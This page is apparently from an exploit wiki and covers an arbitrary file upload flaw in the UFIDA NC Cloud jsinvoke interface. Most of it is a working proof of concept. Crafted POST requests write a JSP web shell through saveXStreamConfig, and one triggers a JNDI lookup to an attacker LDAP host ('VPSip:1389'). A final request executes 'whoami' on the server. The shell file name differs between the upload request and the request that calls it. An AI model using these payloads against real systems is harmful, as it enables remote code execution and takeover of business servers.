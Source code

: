 # UFIDA NC Cloud jsinvoke any file upload vulnerability

## Vulnerability Description

There is a vulnerability to upload any file to the UFIDA NC Cloud jsinvoke interface. The attacker can upload any file to the server through the vulnerability and obtain system permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA NC Cloud</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1677729078033-1536313c-bfb8-4134-ac84-ddad2b011207-20230809133642723.png)

Verify POC

```plain
POST /uapjs/jsinvoke/?action=invoke
Content-Type: application/json

{
    "serviceName":"nc.itf.iufo.IBaseSPService",
    "methodName":"saveXStreamConfig",
    "parameterTypes":[
        "java.lang.Object",
        "java.lang.String"
    ], 
    "parameters":[
        "${param.getClass().forName(param.error).newInstance().eval(param.cmd)}",
        "webapps/nc_web/407.jsp"
    ]
}
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded


{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1677729129558-fd90f34f-9bb9-44ce-b779-e7c17578b4a0.png)

```plain
/cmdtest.jsp?error=bsh.Interpreter&cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec(%22whoami%22).getInputStream()) 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1677729209203-afb4acf2-bd48-44fb-af97-aa70c9bcbc2a.png)
